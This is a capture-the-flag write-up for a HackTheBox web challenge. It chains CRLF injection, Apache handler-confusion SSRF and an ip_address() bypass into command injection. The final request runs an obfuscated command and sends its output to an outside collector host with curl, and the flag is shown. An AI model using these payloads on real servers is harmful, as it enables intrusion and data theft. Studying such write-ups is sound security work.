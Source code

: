 ```yaml
---
Category:
  - Web
Difficulty: Medium
Platform: HackTheBox
status: 3. Complete
tags:
  - Apache
  - CRLF-Injection
---
```


# Information Gathering

## Source code review

*apache2.conf*
```xml
ServerName CyberAttack 

AddType application/x-httpd-php .php

<Location "/cgi-bin/attack-ip"> 
    Order deny,allow
    Deny from all
    Allow from 127.0.0.1
    Allow from ::1
</Location>
```

*attack-domain.py*
```python
#!/usr/bin/env python3

import cgi
import os
import re

def is_domain(target):
    return re.match(r'^(?!-)[a-zA-Z0-9-]{1,63}(?<!-)\.[a-zA-Z]{2,63}$', target)

form = cgi.FieldStorage()
name = form.getvalue('name')
target = form.getvalue('target')
if not name or not target:
    print('Location: ../?error=Hey, you need to provide a name and a target!')
    
elif is_domain(target):
    count = 1 # Increase this for an actual attack
    os.popen(f'ping -c {count} {target}') 
    print(f'Location: ../?result=Succesfully attacked {target}!')
else:
    print(f'Location: ../?error=Hey {name}, watch it!')
    
print('Content-Type: text/html')
print()
```

*attack-ip.py*
```python
#!/usr/bin/env python3

import cgi
import os
from ipaddress import ip_address

form = cgi.FieldStorage()
name = form.getvalue('name')
target = form.getvalue('target')

if not name or not target:
    print('Location: ../?error=Hey, you need to provide a name and a target!')
try:
    count = 1 # Increase this for an actual attack
    os.popen(f'ping -c {count} {ip_address(target)}') 
    print(f'Location: ../?result=Succesfully attacked {target}!')
except:
    print(f'Location: ../?error=Hey {name}, watch it!')
    
print('Content-Type: text/html')
print()
```

# Exploitation

## CRLF Injection

>[!bug]
>The `name` variable is inserted within server responses headers without being sanitized.

```python
...
else:
    print(f'Location: ../?error=Hey {name}, watch it!')
...
```


## Apache Confusion Attacks to SSRF

Reference: [🔥 3. Handler Confusion](../../Readwise/Articles/🍊%20Orange%20Tsai%20-%20Confusion%20Attacks%20Exploiting%20Hidden%20Semantic%20Ambiguity%20in%20Apache%20HTTP%20Server!.md#🔥%203.%20Handler%20Confusion)

>[!bug] 
>The Apache version used in the challenge is vulnerable to different confusion attacks, including an handler confusion that can be used to perform [Server Side Request Forgery (SSRF)](../../Dev,%20ICT%20&%20Cybersec/Web%20&%20Network%20Hacking/Server%20Side%20Request%20Forgery%20(SSRF).md) against other endpoints, including internal ones (eg. `attack-ip`).

```http
GET /cgi-bin/attack-domain?target=x&name=http://%0d%0aLocation:/l%0d%0aContent-Type:proxy:http://127.0.0.1/cgi-bin/attack-ip?target=127.0.0.1%26name=m3ssap0%3F%0d%0a%0d%0a HTTP/1.1
Host: localhost:1337
```
## ip_address sanitization bypass to RCE

>[!bug]
>`os.popen(f'ping -c {count} {ip_address(target)}')`  is used to sanitize `target` before using it inside a command execution sink. `ip_address()` however accepts targets having `%` and can be used to bypass the check and reach the `ping` sink

```http
GET /cgi-bin/attack-ip?target=fe80::a8bb:ccff:feee:ddf1%`ls>test.txt`&name=0xbro HTTP/1.1 
Host: 127.0.0.1:1337
```
## Final

```http
GET /cgi-bin/attack-domain?target=x&name=http://%0d%0aLocation:/l%0d%0aContent-Type:proxy:http://127.0.0.1/cgi-bin/attack-ip?target=fe80::a8bb:ccff:feee:ddf1%2525%253beval%2b$(printf%2b"\131\62\106\60\111\103\71\155\142\107\106\156\113\147\75\75"|base64%2b-d)|curl%2bmpgpmyotzaxhnesfjgkglqlekre9ma86c.oast.fun%2b-d%2b@-%26name=m3ssap0%3F%0d%0a%0d%0a HTTP/1.1
Host: 127.0.0.1
```


# Flag

>[!success] Flag
> `HTB{h4ndl1n6_m4l4k4r5_f0rc35}`
 